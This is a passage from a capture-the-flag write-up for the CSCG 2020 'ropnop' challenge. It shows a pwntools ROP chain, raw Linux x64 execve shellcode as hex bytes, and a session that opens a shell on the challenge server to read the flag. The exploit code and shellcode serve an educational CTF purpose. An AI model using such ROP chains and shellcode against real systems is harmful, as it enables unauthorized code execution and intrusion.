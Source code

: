 That works! We now need to input the shellcode we want to use to be executed.
For that I just used some standard linux 64-bit [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php).


```python
...

p.sendline(b"A" * cyclic_find(b'gaaa') + p64(popRSI) +
						p64(new_buf) + p64(0) + p64(read_plt) + p64(start))

input()
p.sendline(bytes.fromhex("31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05"));

...
```

This works both locally and remotely for me:

```bash
$ python pwnit_2.py
[+] Opening connection to hax1.allesctf.net on port 9300: Done


[*] Switching to interactive mode
$ cat flag
CSCG{s3lf_m0d1fy1ng_c0dez!}
$ cat meme.jpg | base64 -w0
/9j/4AAQSk...R/rj/2Q==
$
[*] Interrupted
$ echo "/9j/4AAQSk...R/rj/2Q==" > meme.base64
$ cat meme.base64 | base64 -d > meme.jpg
```
![](https://raw.githubusercontent.com/Nayos1337/cscg2020/master/pwn/ropnop/meme.jpg)
